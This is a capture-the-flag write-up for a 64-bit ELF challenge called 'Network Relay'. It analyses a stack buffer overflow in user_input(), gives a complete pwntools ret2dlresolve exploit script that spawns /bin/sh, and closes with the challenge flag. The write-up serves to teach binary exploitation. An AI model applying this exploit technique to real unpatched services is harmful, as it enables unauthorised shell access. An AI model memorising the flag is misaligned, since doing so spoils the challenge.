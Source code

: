 # Network Relay - Writeup

---

## Exploit Demo

This demo illustrates the exploit process, culminating in shell access via `ret2dlresolve`:

![Alt text](gif/NetworkRelay.gif)

---

## Binary Inspection

### Step 1: Initial Binary Details

```bash
$ file main
```

- 64-bit dynamically linked ELF binary
- Not stripped

![Alt text](img/1.png)

### Step 2: Security Protections

```bash
$ pwn checksec main
```

- **RELRO**: Partial
- **Stack**: No canary
- **NX**: Enabled
- **PIE**: Disabled (base address fixed at 0x400000)

![Alt text](img/2.png)

---

## Static Analysis (IDA Pro)

Reverse engineering the binary shows the vulnerability resides in the `user_input()` function:

### user_input()

```c
ssize_t user_input()
{
  _BYTE buf[64]; // [rsp+0h] [rbp-40h] BYREF
  return read(0, buf, 0xC8uLL);  // Reads 200 bytes into a 64-byte buffer!
}
```

![Alt text](img/3.png)

- This function reads **200 bytes** into a buffer that's only 64 bytes long, introducing a **classic stack-based buffer overflow**.
- The binary has **no stack canary**, making the overflow straightforward to exploit.
- There is **no return-style function** (like `system`, `exit`, or a function pointer) to pivot to.
- **Libc is not provided**, so calling `system("/bin/sh")` via a static address is not viable.

---

## How to Solve

We solve this challenge using **`ret2dlresolve`**, a powerful dynamic linker resolution technique.

**Why?**

- No direct access to libc symbols.
- No system call or syscall gadgets available.
- No return function like `system()` in the binary.
- But the binary is **dynamically linked** — meaning we can exploit the dynamic linker itself to resolve and call `system`.

---

## Vulnerability Summary

- **Buffer Overflow** in `user_input()` via oversized `read()` call.
- **No stack canary** → safe to overflow.
- **NX enabled** → code injection is blocked, so we use a ROP chain.
- **No PIE** → static base makes ROP reliable.
- **No `system` in binary or known libc** → use `ret2dlresolve`.

---

## Exploit Strategy

1. **Overflow the stack** to hijack control flow.
2. **Build a ROP chain** to:

   - Call `read()` again to write the forged `Elf64_Rel`, `Elf64_Sym`, and command string (`/bin/sh`) into memory.
   - Trigger the dynamic linker via `ret2dlresolve()` to resolve `system` and call it with `"/bin/sh"`.

3. **Send second-stage payload** (dlresolve structures + `/bin/sh`).
4. **Get a shell**.

---

## Exploit Script

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF(args.EXE or 'main')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR



def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak main
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:      Partial RELRO
# Stack:      No canary found
# NX:         NX enabled
# PIE:        No PIE (0x400000)
# Stripped:   No

io = start()

rop = ROP(exe)

dlresolve = Ret2dlresolvePayload(exe, symbol='system', args=['/bin/sh'])
rop.raw('A' * 72)
rop.read(0, dlresolve.data_addr)
rop.ret2dlresolve(dlresolve)
log.info(rop.dump())
io.sendline(rop.chain())
io.sendline(dlresolve.payload)

io.interactive()


```

---

## Result

After executing the exploit, we successfully resolve and call `system("/bin/sh")`.

![Alt text](img/4.png)
![Alt text](img/5.png)

---

## FLAG

```
RedPointer{HelloPhantom!23}
```

